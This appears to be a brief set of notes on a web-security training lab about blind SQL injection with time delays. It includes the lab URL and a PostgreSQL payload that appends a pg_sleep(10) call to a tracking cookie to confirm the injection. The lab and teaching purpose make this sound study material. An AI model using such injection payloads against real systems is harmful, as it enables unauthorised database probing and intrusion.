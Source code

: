# Blind SQL injection with time delays

1. SQLi: tracking cookie.
2. Goal: exploit the SQL injection vulnerability to cause a 10 second delay.

### Analysis
- Web target: `https://0a6c003c0458f04b80c0b2a400d50088.web-security-academy.net/`
- Use Burp suite.
- `ctrl + u`: URL encode.

```sql
--String concatenation
--PostgreSQL: ||

--Conditional time delays
--PostgreSQL: SELECT pg_sleep(10)

select tracking-id from tracking-table where trackingId='sanYkWrb9RW2mvzW'|| (select pg_sleep(10))--';
```